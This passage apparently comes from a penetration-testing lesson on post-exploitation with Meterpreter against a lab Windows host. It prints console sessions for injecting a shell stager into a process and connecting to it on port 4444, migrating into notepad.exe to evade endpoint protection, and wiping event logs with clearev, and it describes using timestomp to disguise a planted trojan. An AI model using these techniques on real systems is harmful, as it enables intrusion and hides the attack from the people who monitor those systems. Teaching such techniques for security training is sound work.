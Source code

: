 **Process Injection Module**  
  
```

meterpreter> run post/windows/manage/multi_meterpreter_inject PID=3940 PAYLOAD=windows/shell_bind_tcp  

[*] Running module against VAGRANT-2008R2  
[*] Creating a reverse meterpreter stager: LHOST=192.168.86.57 LPORT=4444  
[+] Starting Notepad.exe to house Meterpreter Session.  
[+] Process created with pid 1296  
[*] Injecting meterpreter into process ID 1296  
[*] Allocated memory at address 0x00170000, for 328 byte stager  
[*] Writing the stager into memory…  
[+] Successfully injected Meterpreter in to process: 1296  
< snip>  
msf> connect 192.168.86.25 4444  
[*] Connected to 192.168.86.25:4444  
Microsoft Windows [Version 6.1.7601]  
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.  
  
C:\ManageEngine\DesktopCentral_Server\bin>
```

**Process Migration with Meterpreter**  
  

```
meterpreter> run post/windows/manage/migrate  
  
  
[*] Running module against VAGRANT-2008R2  
[*] Current server process: NepqI.jsp (5624)  
[*] Spawning notepad.exe process to migrate to  
[+] Migrating to 6012  
[+] Successfully migrated to process 6012  
meterpreter>
```
What we achieve through the use of process migration is to ideally evade detection by endpoint protection solutions. Any action taking place will be done from the process space of an existing and unsuspicious process, even if the behaviors may be suspicious. As with other techniques discussed in this lesson, the important idea is to keep from getting detected. Running malicious code in a process that won't earn much in the way of notice is a good way of maintaining access without getting detected.


**Clearing Event Viewer with Meterpreter**  
  
```
meterpreter> clearev  
[*] Wiping 635 records from Application…  
[-] stdapi_sys_eventlog_clear: Operation failed: Access is denied.  
meterpreter> getuid  
Server username: NT AUTHORITY\LOCAL SERVICE
```
**Time Management**  
Files in a file system all have dates and times associated with them. You will commonly have modified, accessed, and created dates for each file. If you were to try to replace a common file in the file system with a Trojan that contained a payload you had created, it would have the time stamps associated with the file you were uploading. That makes it more detectable. Instead, you can modify the times of files. Again, we turn to Meterpreter. In the following code, you can see the use of `timestomp` to manipulate the times of a file. Using `timestomp`, we can set the times on a file we uploaded, which are identical to the time stamps on the legitimate file. When we move our replacement file into place, it will have the correct times.  
  